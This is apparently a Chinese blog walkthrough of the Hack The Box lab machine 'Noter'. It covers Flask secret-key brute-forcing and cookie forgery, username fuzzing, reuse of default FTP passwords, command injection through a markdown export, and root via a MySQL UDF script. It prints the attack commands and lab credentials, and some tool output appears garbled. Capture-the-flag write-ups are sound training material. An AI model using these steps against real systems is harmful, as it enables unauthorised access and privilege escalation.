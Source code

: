 ```yaml
---
title: htb noter
copyright: true
date: 2022-05-11 15:51:55
tags: 靶机渗透
---
```

htb不允许公开active靶机的wp，这里只是自己记录下渗透过程。
<!--more-->
难度：medium  

**1.端口扫描**  
nmap -sVC -A --min-rate 5000 10.129.171.250 > port.txt  
21 22 5000端口开放  

**2.web**  
5000端口是个flask应用，熟悉的味道，熟悉的配方，flask基本上就考虑jinja2 ssti和secret_key伪造了  
![1.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/1.png)  
注册一个普通用户，在添加笔记功能发现了一个xss  
![2.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/2.png)  
![3.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/3.png)  
在这里尝试了很久才基本确定这个xss没有利用价值  
尝试leak secret_key失败，尝试爆破session  
```
flask-unsign --unsign --cookie "eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.YnpVIQ.4XYlyJbVnl7qlkIJENKNrgDSkVI" < /usr/local/lib/python3.9/dist-packages/flask_unsign_wordlist-2022.19-py3.9.egg/flask_unsign_wordlist/wordlists/all.txt
```
```
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (2688): -----BEGIN PRIVATE KEY-----DEF
[+] Found secret key after 16640 attempts32.com/v1/pe
'secret123'
```
使用伪造的admin session登录失败，应该没有admin这个用户，关注到登录时用户名存在与否的显示不同。  
![4.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/4.png)  
![5.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/5.png)  
fuzz有效用户名  
```
wfuzz -t 5 --ss "Invalid login" -d 'username=FUZZ&password=1' -w /root/桌面/tools/字典/SecLists-master/Usernames/cirt-default-usernames.txt http://10.129.173.40:5000/login
```
![6.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/6.png)  
其中test是我测试时创建的用户，伪造TEST 和blue的session试试，发现blue是vip用户  
```
flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret "secret123"

eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YnqLdQ.XgF7a8l7SFd4HdntVKE-0YHGdeE
```
![7.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/1.png)  
在blue的笔记中发现了ftp服务的一个用户名密码blue  blue@Noter!和管理员用户名ftp_admin  
![8.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/8.png)  
使用blue登入ftp服务器，发现了一个密码策略pdf，知道了默认密码为username@site_name!  
![9.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/9.png)  
使用ftp_admin  ftp_admin@Noter!   登入ftp，获取两个版本的flask源码，通过beyondcompare辅助审计代码，发现mysql root用户名密码（后边要用）和一个命令注入点：  
这里的r.text.strip()可控，使用;可以在shell里执行多条命令  
![10.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/10.png)  
kali上构造一个md文件，本地监听+远程导出一下，getshell  
![11.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/11.png)  
![12.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/12.png)  
![13.png](https://lockcy-github-io.vercel.app/2022/05/11/htb-noter/13.png)  
cat /home/svc/user.txt  

**3.提权**
上传pspy64看下进程，没什么可疑的，跑下linpeas，尝试了一番也没啥结果，这时想起了mysql用户名密码，udf一下。  
这里刚开始犯蠢了，直奔插件目录/usr/lib/x86_64-linux-gnu/mariadb19/plugin/ 想上传udf可执行程序，发现没有权限，想了一段时间，后来发现直接用mysql root用户往该目录里二进制dump即可。  
https://github.com/lockcy/penetration-kb/blob/master/script/linux32udf.py
```
python linux32udf.py --username root --password Nildogg36
./sh -p
```
获取root权限  
cat /root/root.txt  
